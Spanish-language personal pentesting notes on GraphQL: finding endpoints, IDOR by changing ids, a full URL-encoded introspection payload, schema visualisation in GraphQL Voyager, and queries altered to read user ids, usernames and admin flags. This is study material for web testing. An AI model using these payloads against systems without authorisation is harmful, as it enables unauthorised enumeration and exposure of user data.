

1) https://book.hacktricks.wiki/en/network-services-pentesting/pentesting-web/graphql.html
2) https://apis.guru/graphql-voyager/
### Que es GraphQL? 

Es un lenguaje de consultas para APIs y un entorno de ejecucion del lado del servidor que permite a los clientes solicitar unica y exactamente los datos que necesitan 
#### Dónde suele aparecer
- `/graphql`
- `/api/graphql`
- `/v1/graphql`

---
### Consulta GraphQL
Una consulta GraphQL suele tener mas o menos esta arquitectura
```json
query {
  usuario(id: 1) {
    nombre
    edad
  }
}
```

Justo en este ejemplo se podria tratar de hacer un **IDOR** cambiando el id.

---
## Introspection a GraphQL

_Introspection_: Técnica para descubrir la estructura interna de un sistema.

Si nos encontramos con un endpoint `/graphql`, cuya interfaz se ve mas o menos asi:



En el recurso adjunto al comiento (1) hay una serie de payloads que pueden servir para enumerar. Por ejemplo:
```c
/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
```
_Nota_: Si el parametro se llama query no pongas _query=_, mogolico.

Ese payload, se pega en la url (`http://localhost/graphql?query=`) pero suele devolver algunos errores, los cuales se arreglan facilmente. Poner Prettify para ver bien todo:

`Type` -> `__Type`
`InputValue` -> `__InputValue`
`schema` -> `__schema`

**Si esta habilitada la** _introspeccion_, devuelve toda la lista de tipos del esquema, y dentro de cada tipo, la lista de nombres de sus campos. Es como una mega consulta SQL que devuelve todo (sin dumpear datos), devuelve tablas, columnas y filas, pero no contenido.

TOOODO Lo que devuelve -> LO COPIAS y vas al 2do enlace (https://apis.guru/graphql-voyager/) -> Change Schema -> Introspection -> Pegas ---> **Base de Datos**

Se deberia ver mas o menos asi:


---
Una vez que podemos ver el esquema ahi bien piola, podemos buscar donde se hace alguna peticion a graphql (suelen ser asi):
```json
{
"query":"{Posts{title, body, users{ username }}}"
}
```

y podemos modificar la query para acceder a los datos q interesan:
```json
{
"query":"{Users{id, username, isAdmin}}"
}
```


